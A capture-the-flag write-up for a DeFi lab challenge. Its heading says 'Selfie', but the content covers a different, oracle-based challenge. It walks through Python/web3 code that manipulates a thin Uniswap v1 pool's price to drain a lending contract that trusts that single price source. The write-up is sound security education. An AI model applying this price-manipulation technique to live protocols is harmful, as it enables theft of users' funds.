 ## Selfie

### Challenge description

> There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.
>
> There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.
>
> Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

### Solution

For this challenge there's a huge vulnerability in the PuppetPool contract where it only computes the price of the token from one source, the Uniswap V1 pool of DVT/ETH tokens.

If there's only one price source, the source can be easily manipulated, as we have 100 times more tokens than the Uniswap V1 pool, thus allowing us to push the price way down, to the point where it's possible to drain almost all the ETH in the uniswap pool.

To solve the challenge, first we have to approve the tokens for trade on the Uniswap V1 pool of DVT/ETH tokens:

```python
token.approve(
    uniswap_exchange.address, 
    2**256 - 1, 
    _fromAttacker
)
```

Here I used a pseudo-infinite approval (usually just called infinite approvals in DeFi), though this is not really necessary.

Then drain the pool of as much ETH as we can get in order to push the price of DVT tokens to as low as we can get it:

```python
uniswap_exchange.tokenToEthSwapOutput(
    ether_to_wei(9.9), 
    ether_to_wei(1000), 
    web3.eth.get_block('latest').timestamp * 2, 
    _fromAttacker
)
```

Then calculate the required deposit of ETH in order to borrow *all* the tokens in the lending pool by calling `calculateDepositRequired()`:

```python
deposit_required = lending_pool.calculateDepositRequired(ether_to_wei(100000))
```

And finally, borrow all the tokens sending the value required assigned to the `deposit_required` variable:

```python
lending_pool.borrow(
    ether_to_wei(100000), 
    _fromAttacker | value_dict(deposit_required)
) 
```

This will effectively take all the tokens in the lending pool.
